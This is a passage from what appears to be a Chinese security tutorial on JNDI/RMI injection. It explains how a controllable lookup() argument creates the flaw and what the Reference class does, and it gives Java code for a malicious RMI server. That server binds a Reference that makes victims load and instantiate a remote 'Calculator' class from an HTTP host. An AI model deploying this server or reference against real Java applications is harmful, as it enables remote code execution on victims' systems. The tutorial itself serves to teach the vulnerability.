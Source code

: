 由于 `lookup()` 参数可控，导致漏洞的出现，跟进代码如下  
[![](assets/1711556038-57b96043bf6f42e82f20e4ceb7699094.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230308195133-92724c50-bda7-1.png)

### Reference 类

Reference 是一个抽象类，每个 Reference 都有一个指向的对象，对象指定类会被加载并实例化。  
由 `JNDI+RMI` 服务端攻击代码

```plain
package jndi_rmi_injection;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import javax.naming.Reference;
import com.sun.jndi.rmi.registry.ReferenceWrapper;

public class RMIServer {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.createRegistry(7778);
        Reference reference = new Reference("Calculator","Calculator","http://127.0.0.1:8081/");
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
        registry.bind("RCE",wrapper);
    }

}
```

reference 指定了一个 Calculator 类，于远程的 `http://127.0.0.1:8081/` 服务端上，等待客户端的调用并实例化执行。

```plain
Reference reference = new Reference("Calculator","Calculator","http://127.0.0.1:8081/");
```
